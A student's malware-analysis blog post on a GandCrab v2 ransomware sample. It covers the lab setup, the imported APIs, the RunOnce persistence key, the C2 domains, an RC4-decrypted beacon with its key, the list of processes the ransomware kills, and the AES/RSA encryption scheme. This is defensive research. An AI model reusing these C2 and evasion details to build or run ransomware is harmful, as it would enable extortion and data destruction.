


In a university assignment, I was tasked with reversing GandCrab malware.

## Introduction

For one of my university courses, we were assigned with doing research on a cyber security topic of our choice. I have always been fascinated by reverse engineering and malware, and this was the perfect opportunity to dive deeper. 

Which sample, among the many types and strains of malware, does one choose to investigate? With this question in mind I remembered that my parents were struck once by this particularly nasty malware called *GandCrab*. This has motivated me to further investigate this malware.

## History of GandCrab

Around the year 2017, GandCrab started infecting computers, remaining undiscovered until the end of January 2018. After the antivirus Company BitDefender discovered versions 1.0 and 1.1 of the ransomware, the authors were quick to roll out new versions, as their server was attacked and the secret keys made public. GandCrab had a very succesful ransomware campaign, with an estimated 40 percent of the market share in 2019, according to [Kaspersky Labs](https://www.kaspersky.nl/blog/gandcrab-ransomware-is-back/23944/).

 A succesful cooperation between the Romanian police, Bitdefender and Europol led to the development and public release of a decryptor for GandCrab V1. Again, the authors had to catch up and made V2, which the decryptor was not able to decrypt anymore. Version 2 of the GandCrab malware will be considered in this article.
 
 ## Lab Setup

 In order to contain potential threats, a malware analysis lab was built with [FlareVM](https://github.com/mandiant/flare-vm), a dedicated Windows 10 VM for malware analysis. In order to investigate potential network traffic from the ransomware, a [REMnux](https://remnux.org/) VM was set up to simulate network services.
 
## Static analysis

 We took a random sample after searching for GandCrab samples on [MalwareBazaar](https://bazaar.abuse.ch/), to investigate further:

| File name  | aocqhg.exe                                                       |
|------------|------------------------------------------------------------------|
| First seen | 2021-03-01 13:32:17 UTC                                          |
| SHA256     | 5d50191678dabdc76355a6ed55862d6847b63d908625a49c1750a41855811aa4 |
| File size  | 71 168 bytes                                                     |
| Mime type  | application/x-dosexec                                            |
| Packed     | No                                                               |

As can be seen from the mimetype, this is a Windows executable. This means that it contains a Portable Executable (PE) header, which contains information about the compiler versions, checksums, sections, string data, as well as any DLL's that the executable needs for proper functionality. 

Particularly interesting are the API calls that are made by the executable. Multiple calls to cryptographic functions can be observed, as well as calls for file manipulation (ReadFile, WriteFile, CreateFileW). We also see calls to InternetOpenW, InternetReadFile, HttpSendRequestW that suggest that this malware may send or receive data over the internet. Also visible is a LoadLibraryA call, which may be used to load additional libraries during runtime. 

| advapi32.dll     | wininet.dll         | crypt32.dll          | kernel32.dll   |
|------------------|---------------------|----------------------|----------------|
| CryptExportKey   | InternetCloseHandle | CryptStringToBinaryA | CreateProcessW |
| CryptGetKeyParam | HttpSendRequestW    | CryptBinaryToStringA | ReadFile       |
| CryptImportKey   | InternetConnectW    |                      | WriteFile      |
| CryptEncrypt     | HttpOpenRequestW    |                      | CreateFileW    |
| CryptDecrypt     | InternetOpenW       |                      |                |
| RegCreateKeyExW  | InternetReadFile    |                      |                |
| RegCloseKey      |                     |                      |                |
| RegQueryValueExW |                     |                      |                |

A quick search for string data in the binary reveals multiple interesting strings, but most importantly the ransomware note that is dropped on the host after infection is plainly visible:

These are the first clues as to which version of GandCrab we are dealing with, as the ransom note has changed between versions. 

## Dynamic Analysis

At the start of the investigation, the binary is being run without attaching a debugger. Using [Sysinternals Process Monitor](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon), a close eye is kept on any processes that are being spawned, the creation of registry keys, and potential network traffic. From this a graph has been plotted (see above) by [PROCdot](https://www.procdot.com/) which creates a visual representation of how the malware executes (enlarge for full view). 

The creation of the following registry key is observed:

> HKCU\Software\Microsoft\Windows\Currentversion\RunOnce\iqggkpqyopu

Further investigation into this registry keys shows that it references the following executable file:

> Type: REG_SZ,  
> Length: 110,  
> Data: "C:\Users\IEUser\AppData\Roaming\Microsoft\umnpfp.exe"

It is most likely that this executable is run on startup as a persistence mechanism. Another file is created as well, likely a key material for encryption in later stages:

> FILE:c:\users\ieuser\appdata\roaming\microsoft\crypto\rsa\
> s-1-5-21-3461203602-4096304...\7b5ef83f033cce1d1e0d..

After these events take place, GandCrab attempts to terminate common antivirus solutions. The following list of solutions is searched for (decompiled using [Ghidra](https://ghidra-sre.org/)):

When persistence is established and anti-virus solutions are out of the way, the executable starts sending DNS requests every 2 to 3 seconds:

> nomoreransom.coin: type A, class IN  
> random.bit: type A, class IN  
> carder.bit: type A, class IN

Additionally, HTTP POST requests are observed to these domains:

> POST /curl.php?token=This%20.....
> m%20cannot%20be%20run%20in%20DOS%20mode.$   
> HTTP/1.1  
> Host: nomoreransom.coin  
> Content-Type: application/x-www-form-urlencoded  
> User-Agent: Mozilla/5.0  
> (Windows NT 6.1; WOW64)  
> AppleWebKit/537.36 (KHTML, like Gecko)  
> Chrome/55.0.2883.87 Safari/537.36  
> Content-Length: 5925  
> Cache-Control: no-cache  
> 
> data=mdU+mIEkDgfqAIOO+CErOIcj/44TH/51A4H

The base64 encoded body is encrypted and does not reveal any information. Encryption is likely applied to the body
to obfuscate communcation with a C2 server. The next step is to uncover which algorithm is used for this communication
between the ransomware binary and the C2 server.

After some more reverse engineering in [IDA](https://hex-rays.com/ida-free/), the greatest reversing tool in existence, 
the following functions have been narrowed down, which bear resemblance to an RC4 key scheduling algorithm (KSA),
as well as the pseudo-random generation algorithm (PRGA). The output of the KSA is used as input to the PRGA,
to generate a keystream. To obtain encrypted ciphertext, this keystream is XOR'ed with the plaintext. 
RC4 uses a substitution box of 256 elements which undergoes multiple permutations before
generating the keystream (notice the hex value of 100h = 256 decimal).

By setting breakpoints in these routines, and observing the memory regions they reference,
we see that the value "areidjD#shasj" is repeatedly written to memory:

It was hypothesized at this point that this was the RC4 keystream that has been generated to encrypt the body of the
HTTP POST request. Indeed, after running [CyberChef](https://gchq.github.io/CyberChef/), 
with base64 decoding, RC4 decryptor, and UTF16-LE to make the output more legible, we get the 
following output:

> action=call  
> &pc_user=IEUser  
> &pc_name=MSEDGEWIN10  
> &pc_group=WORKGROUP  
> &av=MsMpEng.exe  
> &pc_lang=en-US  
> &pc_keyb=0  
> &os_major=Windows 10 Enterprise  
> &os_bit=x64  
> &ransom_id=aaf05d4ab4a6fec6  
> &hdd=C:FIXED_85898293248/35369234432,  
> Z:REMOTE_205349208064/124264275968  
> &pub_key=BgIAAACkAABSU0ExAAgAAAEAAQCBo  
> &priv_key=BwIAAACkAABSU0EyAAgAAAEAAQCB  
> &version=2.3r

This gives a nice overview of what data is being sent to the C2 server, such as basic details of the
host, antivirus solution in use, language (some types of ransomware refuse to encrypt PC's with certain languages).
We also observe some base64 encoded private and public key that I will return to later. The last line of the
decrypted body shows that we are actually dealing with internal version 2.3r of the GandCrab ransomware.

At the time of writing, the GandCrab domains associated with this sample have been taken down. 
During analysis, a routine was observed that POSTs in a loop every 10 seconds:

When the binary does not receive a response for this request, it does not continue execution. Since it is impossible
to know what response the binary expects, it has been patched to continue executing even without a response. This
allows to fully analyze the binary. 

Next to closing antivirus solutions, GandCrab also closes processes of software that may lock some files
and/or hinder the encryption of all files:

|                |        |    |
|----------------------------|------------------------|-----------------|
| msftesql.exe               | ocautoupds.exe         | msaccess.exe    |
| sqlagent.exe               | agntsvc.exeagntsvc.exe | mspub.exe       |
| sqlbrowser.exe             | agntsvc.exencsvc.exe   | onenote.exe     |
| sqlservr.exe               | firefoxconfig.exe      | outlook.exe     |
| sqlwriter.exe              | tbirdconfig.exe        | powerpnt.exe    |
| oracle.exe                 | ocomm.exe              | steam.exe       |
| ocssd.exe                  | mysqld.exe             | sqlservr.exe    |
| dbsnmp.exe                 | mysqld-nt.exe          | thebat.exe      |
| synctime.exe               | mysql-opt.exe          | thebat64.exe    |
| mydesktopqos.exe           | dbeng50.exe            | thunderbird.exe |
| agntsvc.exeisqlplussvc.exe | sqbcoreservice.exe     | visio.exe       |
| xfssvccon.exe              | excel.exe              | winword.exe     |
| mydesktopservice.exe       | infopath.exe           | wordpad.exe     |

Encrypting some specific files would render a computer unbootable, which would
make it impossible to display the ransom note and demand a ransom from the victim.
To deal with this, GandCrab also excludes certain directories and special files:

## File Encryption

The very purpose of the ransomware is to encrypt all files and demand a ransom. Up to the encryption process,
may steps have been taken to establish a proper foothold on the system. By now, GandCrab has added registry
keys for persistence and crucial information has been gathered from the compromised system. Soon after,
DNS lookups are made to find C2 servers. Obstructive processes are terminated, and exclusion lists are used
so that no files are encrypted that render the system unbootable. 

To investigate the encryption process, the cryptography-related API calls have been further inspected. This leads
us to the following function:

Here a call to CryptGenKey is made, with argument hex value 0xA400, corresponding to *CALG_RSA_KEYX*.
This indicates that we are dealing with the (asymmetric) RSA encryption algorithm, relating to the private/public keys
observed before. As asymmetric encryption is generally considered to be too slow for file encryption, we also suspect
the use of other (symmetric) stream or block ciphers such as AES. Unfortunately, all crypto-related calls observed point to the usage
of RSA. This leaves two options, either our hypothesis that a symmetric cipher is used is wrong, or the malware authors
use a handcrafted or uncommon implementation of a symmetric cipher. 

At some point, the ransomware is going to write encrypted files to the file system. What about working backwards from
the file writing routines, in the hope to encover the encryption scheme that is used just before that? We set multiple
breakpoints at any *WriteFile* calls that are made. Working backwards leads us to the following routine:

Here we see that files are read in chunks of 0x1000000 bytes (approx 1 Mb). Thereafter, two chunks of 0x100 (256 decimal)
and 0x10 (16 decimal) bytes are appended to the written file. Working further backwards, using the Windows documentation,
the following function was found:

It seems here *CryptGenRandom* call is used which is referenced by *advapi32.dll*. It fills a buffer of size *dwLen* with random
bytes. This routine is called twice with different arguments for the first parameter. After these calls, multiple 
complex routines are called that bear resemblance to substitution-permutation networks as are common in symmetric ciphers.
Although it is difficult to confirm, the routines are very likely some form of AES encryption. After the files are encrypted,
the file-specific key and initialization vector (IV) are appended to the encrypted file. The key and IV are themselves encrypted
with the RSA keys. This only allows decryption of the files with the RSA private key. 

After encrypting the entire system in this fashion, GandCrab removes any shadow copies, preventing the user from restoring
the system to a working state:

The system reboots itself after a while and GandCrab starts again through the persistence mechanisms as previously described.
The user will be presented with the ransomware note on how to pay the ransom to recover from the infection. 

## Sidenote

After decrypting the RSA keys with the RC4 key, an attempt has been made to use these keys to decrypt a file with known
contents (e.g. a text file containing a known phrase). After running GandCrab, the encrypted file was compared to the
unencrypted file. Using a Python script, an attempt has been made to extract the purported key and IV from the encrypted
file. The goal was to decrypt the file using the decrypted key and IV. Unfortunately, after extensive trials, this proved to be
impossible. Version 1 of GandCrab had a flaw where the RSA private key would be saved to a registry entry directly.
This unfortunately was patched in the sample that has been analyzed. To the best of our knowledge, no decryptor exists
for GandCrab v2 or any of its subversions.

## Conclusion

GandCrab is a sophisticated piece of malware that is at the root of more advanced malware versions such as GandCrab v4, v5 and the Sodinokibi 
ransomware. Each and every version has been improved and hardened by its authors against reverse engineering.
All in all, this was a great assignment and I learned a lot! I'm looking forward
to dissecting more malware in the future :smile:!
